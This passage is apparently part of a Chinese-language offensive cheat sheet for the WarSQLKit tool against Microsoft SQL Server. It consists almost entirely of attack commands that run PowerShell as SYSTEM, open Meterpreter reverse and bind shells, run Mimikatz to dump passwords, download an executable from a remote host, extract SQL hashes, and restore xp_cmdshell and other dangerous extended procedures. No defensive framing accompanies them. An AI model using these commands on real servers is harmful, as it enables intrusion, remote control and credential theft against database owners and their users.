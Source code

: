	以NT AUTHORITY\SYSTEM权限运行PowerShell命令
	EXEC sp_cmdExec 'powershell Get-ChildItem /RunSystemPS';
	生成一个以NT AUTHORITY\SYSTEM权限运行的X86 Meterpreter反向连接shell
	EXEC sp_cmdExec 'sp_meterpreter_reverse_tcp LHOST LPORT GetSystem';
	生成一个以NT AUTHORITY\SYSTEM权限运行的X64 Meterpreter反向连接shell
	EXEC sp_cmdExec 'sp_x64_meterpreter_reverse_tcp LHOST LPORT GetSystem';
	生成一个以NT AUTHORITY\SYSTEM权限运行的X64 Meterpreter RC4反向连接shell
	EXEC sp_cmdExec 'sp_meterpreter_reverse_rc4 LHOST LPORT GetSystem'
	RC4PASSWORD=warsql
	生成一个以NT AUTHORITY\SYSTEM权限运行的X86 meterpreter_bind_tcp shell
	EXEC sp_cmdExec 'sp_meterpreter_bind_tcp LPORT GetSystem';
	运行Mimikatz功能抓取密码
	EXEC sp_cmdExec 'sp_Mimikatz';
	获取Mimikatz日志
	select * from WarSQLKitTemp
	文件下载
	EXEC sp_cmdExec 'sp_downloadFile http://test.com/file.exe C:\ProgramData\file.exe 300';
	获取MSSQL Hash
	EXEC sp_cmdExec 'sp_getSqlHash';
	获取Windows版本
	EXEC sp_cmdExec 'sp_getProduct';
	获取可用的数据库
	EXEC sp_cmdExec 'sp_getDatabases';
  #### 利用sp_addextendedproc恢复组件
  	EXEC sp_addextendedproc xp_cmdshell ,@dllname ='xplog70.dll'
	EXEC sp_addextendedproc xp_enumgroups ,@dllname ='xplog70.dll'
	EXEC sp_addextendedproc xp_loginconfig ,@dllname ='xplog70.dll'
	EXEC sp_addextendedproc xp_enumerrorlogs ,@dllname ='xpstar.dll'
	EXEC sp_addextendedproc xp_getfiledetails ,@dllname ='xpstar.dll'
	EXEC sp_addextendedproc Sp_OACreate ,@dllname ='odsole70.dll'
	EXEC sp_addextendedproc Sp_OADestroy ,@dllname ='odsole70.dll'
	EXEC sp_addextendedproc Sp_OAGetErrorInfo ,@dllname ='odsole70.dll'
	EXEC sp_addextendedproc Sp_OAGetProperty ,@dllname ='odsole70.dll'
	EXEC sp_addextendedproc Sp_OAMethod ,@dllname ='odsole70.dll'
	EXEC sp_addextendedproc Sp_OASetProperty ,@dllname ='odsole70.dll'
	EXEC sp_addextendedproc Sp_OAStop ,@dllname ='odsole70.dll'
	EXEC sp_addextendedproc xp_regaddmultistring ,@dllname ='xpstar.dll'
	EXEC sp_addextendedproc xp_regdeletekey ,@dllname ='xpstar.dll'
	EXEC sp_addextendedproc xp_regdeletevalue ,@dllname ='xpstar.dll'
	EXEC sp_addextendedproc xp_regenumvalues ,@dllname ='xpstar.dll'
	EXEC sp_addextendedproc xp_regremovemultistring ,@dllname ='xpstar.dll'
	EXEC sp_addextendedproc xp_regwrite ,@dllname ='xpstar.dll'
	EXEC sp_addextendedproc xp_dirtree ,@dllname ='xpstar.dll'
	EXEC sp_addextendedproc xp_regread ,@dllname ='xpstar.dll'
	EXEC sp_addextendedproc xp_fixeddrives ,@dllname ='xpstar.dll'
  #### 